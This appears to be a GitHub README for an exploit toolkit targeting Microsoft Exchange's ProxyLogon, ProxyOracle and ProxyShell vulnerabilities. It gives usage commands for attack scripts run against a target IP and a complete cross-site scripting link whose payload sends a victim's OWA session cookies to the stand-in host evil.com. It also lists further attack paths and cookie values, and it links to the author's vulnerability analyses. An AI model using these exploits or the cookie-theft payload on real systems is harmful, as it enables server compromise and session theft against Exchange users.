




# ProxyVulns

### ProxyLogon

`Usage: python3 26855.py 1.1.1.1`



### ProxyOracle

``` url
Once a victim clicks this link, evil.com will receive the cookies.

https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

``` bash
pip3 install pycryptodome

Usage: python3 31196.py 1.1.1.1 'cadata=xxx; cadataTTL=yyy; ...'
```



### ProxyShell

``` bash
pip3 install pypsrp

Usage: python3 34473.py 1.1.1.1

Usage: python3 31207.py 1.1.1.1 [Local File Path] [UNC Absolute Path]
```





> Not working in some versions target(due to `/@gmail.com` path), maybe fix it later

### Others

- `Cookie: securitytoken=foobar`

- `/owa/calendar/foobar@exchange.local/foobar/owa14.aspx/.js`

## Reference

[ProxyLogon Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://docs.microsoft.com/en-us/exchange/architecture/mailbox-servers/recreate-arbitration-mailboxes?view=exchserver-2019

[ProxyOracle Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://github.com/mwielgoszewski/python-paddingoracle

[ProxyShell Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)